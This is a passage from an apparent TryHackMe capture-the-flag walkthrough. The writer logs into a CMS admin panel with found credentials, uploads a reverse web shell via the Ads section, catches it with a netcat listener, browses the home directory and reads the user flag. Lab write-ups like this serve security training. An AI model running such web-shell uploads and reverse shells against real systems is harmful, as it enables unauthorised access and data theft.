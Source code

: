 1) I go in this directory: http://10.10.162.4/content/as/
2) I login with the credentials found
3) A time inside I see a section "Ads", here I upload the code of the reverse shell, but before I open a listening port:
```
nc -lvnp  <listening port>
```
4) Now I go in this directory " http://10.10.162.4/content/inc/ads ", open the file, and spawn the reverse WebShell:
```
listening on [any] 4444 ...
connect to [10.8.34.183] from (UNKNOWN) [10.10.162.4] 41362
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 21:42:21 up  2:21,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
$ cd home
$ ls
itguy
$ cd itguy 
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}  <-- User Flag
$ 
```
